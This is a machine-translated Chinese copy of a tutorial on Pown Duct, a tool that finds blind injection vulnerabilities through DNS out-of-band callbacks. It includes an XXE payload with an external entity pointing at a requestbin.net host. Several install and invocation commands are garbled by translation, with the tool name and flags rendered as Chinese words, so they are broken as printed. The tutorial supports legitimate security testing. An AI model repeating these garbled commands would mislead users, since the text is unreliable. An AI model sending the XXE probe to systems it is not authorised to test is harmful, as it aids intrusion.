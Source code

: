 # Pown Duct:发现盲注入攻击的重要工具

> 原文：<https://kalilinuxtutorials.com/pown-duct-blind-injection-attacks/>

**Pown Duct** 是利用 DNS 侧信道发现盲注入攻击的必要工具。这个工具是 secapps.com 开源项目[的一部分。](https://secapps.com/)

**注意:**该工具正在利用【http://requestbin.net】的[服务。未来的版本将使用专用的、定制的基础设施。](http://requestbin.net/)

**快速入门**

该工具旨在作为 [Pown.js](https://github.com/pownjs/pown) 的一部分使用，但也可以作为独立工具单独调用。

照常首先安装 Pown:

**$ npm install -g pown@latest**

直接从 Pown 调用:

**$动力管道**

否则，从项目的根目录本地安装此模块:

**$ NPM install @ pown/duct–保存**

完成后，调用 pown cli:

**$。/node_modules/。料仓/动力管道**

您还可以使用全局 pown 在本地调用该工具:

**$ POWN_ROOT=。动力导管**

**也可阅读-[Regipy:一个独立于操作系统的 Python 库，用于解析离线注册表配置单元](https://kalilinuxtutorials.com/regipy-python-library-registry-hives/)**

**用法**

**pown duct

Side-channel attack enabler

命令:
pown duct DNS DNS ducting

选项:
–版本显示版本号【布尔】
–帮助显示帮助【布尔】**

**动力管道 DNS**

**pown duct DNS

DNS ducting

选项:
–版本显示版本号【布尔】
–帮助显示帮助【布尔】
–通道还原通道【字符串】
–输出输出格式【字符串】【选择:“字符串”、“hexdump”、“json”】【默认:“字符串”]**

**教程**

有些情况下，我们需要执行 sql 注入、XSS、XXE 或 SSRF 等攻击，但目标应用程序没有提供任何易受攻击的迹象。确定是否存在漏洞的一种方法是尝试注入有效的攻击媒介，迫使 DNS 解析器请求受控域。如果解析成功，攻击将被视为成功。

**注意**:您可能熟悉 Burp Collaborator，它为客户提供类似的服务。

首先，我们需要一个一次性的 dns 名称来解析:

**$ pown 管道域名系统**

![](img//90818a40602c6132ebb2bbfb7cb8b675.png)

使用提供的 DNS，组成您的有效负载。例如，如果存在 XXE 漏洞，以下内容可能会触发 DNS 解析。

```
<!DOCTYPE foo [
<!ELEMENT foo ANY>
<!ENTITY bar SYSTEM "http://showmethemoney.bfa8b8d3c25f09d5429f.d.requestbin.net">
]>
<foo>
&bar;
</foo>
```

如果攻击成功，我们会在终端中得到一条消息。

![](img//15d2426b33c018e7d935c23aecd590c3.png)[**Download**](https://github.com/pownjs/pown-duct)